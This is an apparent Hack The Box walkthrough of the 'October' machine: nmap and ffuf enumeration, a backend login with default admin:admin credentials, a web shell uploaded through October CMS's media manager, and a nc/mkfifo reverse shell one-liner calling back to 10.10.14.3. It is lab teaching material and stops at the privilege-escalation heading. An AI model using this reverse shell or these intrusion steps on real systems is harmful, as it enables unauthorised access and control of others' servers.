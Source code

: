 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/8700b09b-3a82-4d7a-a3a4-2bdcb13596ba)

first enumeration with nmap 

```
# Nmap 7.93 scan initiated Wed May 24 23:43:55 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80 -Pn 10.10.10.16
Nmap scan report for 10.10.10.16
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79b135b6d12512a30cb52e369c332628 (DSA)
|   2048 16086851d17b075a34660d4cd02556f5 (RSA)
|   256 e397a7922372bf1d098885b66c174e85 (ECDSA)
|_  256 8985909820bf035d357f4aa9e11b6531 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 24 23:44:09 2023 -- 1 IP address (1 host up) scanned in 14.83 seconds
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/60e0174a-35b0-4edc-9b14-711229303e6e)

a web server is running on port 80, opening it on a browser, we got directed to a wb page running October cms. let's fuzz for hidden dirs

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/October]
└─$ ffuf -u "http://10.10.10.16/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/common.txt -fc 403,404,500 -e ,.aspx,.php,.txt,.tar,.zip -ic 
                                                                                                                                                                       
        /'___\  /'___\           /'___\                                                                                                                                
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                               
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                               
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                
          \/_/    \/_/   \/___/    \/_/                                                                                                                                
                                                                                                                                                                       
       v1.5.0-dev                                                                                                                                                      
________________________________________________                                                                                                                       
                                                                                                                                                                       
 :: Method           : GET                                                                                                                                             
 :: URL              : http://10.10.10.16/FUZZ                                                                                                                         
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt                                                                                      
 :: Extensions       :  .aspx .php .txt .tar .zip                                                                                                                      
 :: Follow redirects : false                                                                                                                                           
 :: Calibration      : false                                                                                                                                           
 :: Timeout          : 10                                                                                                                                              
 :: Threads          : 40                                                                                                                                              
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500                                                                                            
 :: Filter           : Response status: 403,404,500                                                                                                                    
________________________________________________                                                                                                                       
                                                                                                                                                                       
Blog                    [Status: 200, Size: 4254, Words: 1470, Lines: 104, Duration: 5753ms]
account                 [Status: 200, Size: 5090, Words: 1573, Lines: 146, Duration: 4306ms]
backend                 [Status: 302, Size: 400, Words: 60, Lines: 12, Duration: 932ms]
blog                    [Status: 200, Size: 4253, Words: 1470, Lines: 104, Duration: 4919ms]
config                  [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 642ms]        
error                   [Status: 200, Size: 3341, Words: 1043, Lines: 78, Duration: 2962ms]
forgot-password         [Status: 200, Size: 3847, Words: 1094, Lines: 91, Duration: 3809ms]
forum                   [Status: 200, Size: 9591, Words: 5018, Lines: 217, Duration: 4600ms]
index.php               [Status: 200, Size: 5163, Words: 1599, Lines: 118, Duration: 4089ms]
modules                 [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 372ms]
plugins                 [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 141ms]
storage                 [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 203ms]
tests                   [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 289ms]
themes                  [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 158ms]
vendor                  [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 514ms]
:: Progress: [32991/32991] :: Job [1/1] :: 18 req/sec :: Duration: [1:44:26] :: Errors: 3154 ::
```
cool now we  got hidden dir, let's check out the `backend` dir.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/91d0c837-cdcb-4ec8-9143-64712a24d204)

navigating to the `backend` dir, got redirected to a login page. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/189412ea-6114-44ef-8d39-7073705e75a4)

let's try default creds `admin:admin`... Bull's eye it worked. let's play around to find a way to get shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/90e32160-b965-46a7-9e88-f93a3ffa4e7c)

navigat to th media, click on upload and upload a webshell. now let's open the web shell.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/54ee4f7c-2178-4613-8cac-2fbf42b9a9d1)

opening the web shell, and boom we have RCE. let's pop a reverse shell. fire up ncat listener.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```
reverse shell payload

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/90c3f377-7039-4c31-accf-02eece435762)

fire the payload and check back ncat listener.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/October]
└─$ ncat -lnvp 443                                          
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.16.
Ncat: Connection from 10.10.10.16:58412.
bash: cannot set terminal process group (1296): Inappropriate ioctl for device
bash: no job control in this shell
www-data@october:/var/www/html/cms/storage/app/media$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@october:/var/www/html/cms/storage/app/media$ 
```
Boom we got a reverse shell


## Privilege Escalation
